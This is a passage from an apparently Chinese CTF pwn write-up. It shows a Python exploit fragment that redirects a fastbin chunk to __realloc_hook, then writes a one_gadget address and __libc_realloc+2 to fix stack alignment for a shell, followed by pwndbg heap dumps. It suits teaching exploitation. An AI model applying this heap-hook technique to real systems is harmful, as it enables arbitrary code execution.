 > 附件：
>
> 链接: [https://pan.baidu.com/s/18KTzZZkdk964ifODugiwow](https://pan.baidu.com/s/18KTzZZkdk964ifODugiwow)  密码: 5ttw
>
> --来自百度网盘超级会员V3的分享
>

上面一个小节末尾说要解决这道题还有一些困难需要我们去解决。

之前我们已经控制了chunk的fd指针，接下来一般的思路就是控制fd指向__malloc_hook，向__malloc_hook写入one_gadget从而getshell。但是这道题不一样，就算你本地可以拿到shell（我本地打不通），但是远程一定是不通的，所以需要使用__libc_realloc来调整栈，脚本先贴上来，慢慢分析：

```python
write(5, 0x60, p64(realloc_hook_addr-0x1b)+'b'*0x58)
create(0x60) #5 = 2
create(0x60) #6 fake_chunk
__libc_realloc_addr=libc_base+libc.symbols['__libc_realloc']
payload=p64(one_gadget_addr)+p64(__libc_realloc_addr+2)
write(6,0x1C,'c'*8+'d'*3+payload)
create(0x10)
```

上一小节已经控制了fd指针指向relloc_hook：

```python
pwndbg> x/70gx 0x555555757000
------------------------------------------------------------------------
0x555555757000: 0x0000000000000000  0x0000000000000021 #index0
0x555555757010: 0x6161616161616161  0x6161616161616161
------------------------------------------------------------------------
0x555555757020: 0x6161616161616161  0x0000000000000071 #index1
0x555555757030: 0x0000000000000000  0x0000000000000000
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757090:	0x0000000000000000	0x0000000000000071 #index2:free（index5：malloc)
0x5555557570a0:	0x00007ffff7dd1aed	0x6262626262626262
0x5555557570b0:	0x6262626262626262	0x6262626262626262
0x5555557570c0:	0x6262626262626262	0x6262626262626262
0x5555557570d0:	0x6262626262626262	0x6262626262626262
0x5555557570e0:	0x6262626262626262	0x6262626262626262
0x5555557570f0:	0x6262626262626262	0x6262626262626262
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757100: 0x0000000000000000  0x0000000000000071 #index3
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757170: 0x0000000000000000  0x0000000000000071 #index4
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x5555557571e0: 0x0000000000000000  0x0000000000020e21 #top_chunk
......(省略数据的内容均为空)
0x555555757220: 0x0000000000000000  0x0000000000000000
------------------------------------------------------------------------
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x555555757090 ◂— 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
```